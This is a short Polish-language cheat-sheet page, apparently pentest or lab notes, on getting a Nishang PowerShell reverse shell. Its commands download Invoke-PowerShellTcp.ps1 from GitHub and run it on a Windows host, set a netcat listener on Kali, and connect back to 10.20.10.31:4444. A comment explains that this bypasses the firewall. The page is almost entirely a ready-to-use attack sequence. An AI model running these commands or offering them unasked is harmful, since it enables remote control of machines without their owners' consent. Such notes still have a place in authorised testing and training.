 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# Nishang

To Kali nasłuchuje i stacja z Windowsem sama się do Kaliego podłącza - lepsze bo obchodzimy firewall

**Win**

{% code overflow="wrap" fullWidth="true" %}
```python
Invoke-WebRequest -uri https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1 -OutFile Invoke-PowerShellTcp.ps1
..\Invoke-PowerShellTcp.ps1
Invoke-PowerShellTcp
```
{% endcode %}

**Kali**

```python
#wystawiamy listenera
nc -nlvp 4444
```

**Win**

```python
Invoke-PowerShellTcp -Reverse -IPAddress 10.20.10.31 -port 4444
#i mamy RevShella na kalim
```
